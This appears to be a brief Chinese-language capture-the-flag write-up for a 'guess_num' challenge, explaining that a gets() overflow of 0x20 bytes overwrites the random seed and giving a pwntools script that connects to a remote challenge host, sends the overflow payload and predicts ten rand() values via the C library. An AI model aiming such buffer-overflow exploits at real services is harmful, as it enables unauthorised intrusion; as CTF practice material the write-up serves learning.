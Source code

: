 ![](截图\22.1.png)

1. 发现只要在gets处进行溢出将seed覆盖为我们想要的值，就可以拿到flag，0x30-0x10=0x20

![](截图\22.2.png)

2. 查libc

**exp**

```python
from pwn import *
from ctypes import *
p = remote('111.198.29.45','59354')
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
#elf = ELF('/root/桌面/guess_num')
#libc = elf.libc
payload = "a"*0x20+p64(0)
p.sendline(payload)
libc.srand(1)
for i in range(10):
    r = str(libc.rand()%6+1)
    p.sendline(r)
p.interactive()
```